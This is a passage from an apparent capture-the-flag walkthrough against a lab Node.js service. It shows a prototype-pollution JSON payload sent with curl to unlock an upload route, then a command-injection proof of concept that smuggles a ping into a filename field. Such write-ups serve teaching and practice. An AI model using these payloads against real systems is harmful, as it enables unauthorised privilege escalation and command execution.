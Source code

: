 It is running a `merge` on `message` and `req.body.message`. I want to get my pollution payload into `req.body.message`. Looking at `src/js/app.js`, the PUT to `/` has a body of:

```

data: JSON.stringify({"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"text": message}})

```

I’ll need a valid user to get by `if (!user)`, but I have that. The payload (with spacing) will be:

```

{
  "auth": {
    "name": "felamos", 
    "password": "Winter2021"
  }, 
  "message": {
    "test": "something",
    "__proto__": {
        "canUpload": true
    }
  }
}

```

I’ll do the prototype pollution attack, and now I can access the `upload` route:

```

oxdf@parrot$ curl -X PUT  http://10.10.10.235:31337/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'
{"ok":true}

oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "test"}'
{"ok":true,"Uploaded_File":"test"}

```

This privilege seems to reset within a few seconds of setting it, so I’ll have to work quickly and re-enable it every few uses.

### Exploit Command Injection

#### POC

To see if this works, I’ll put a `; [command]` in the filename, and see if the package will execute that command. I always like to start with a `ping`. With `tcpdump` listening, I’ll send this:

```

oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'content-type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; ping -c 1 10.10.14.7"}'
{"ok":true,"Uploaded_File":"x; ping -c 1 10.10.14.7"}

```
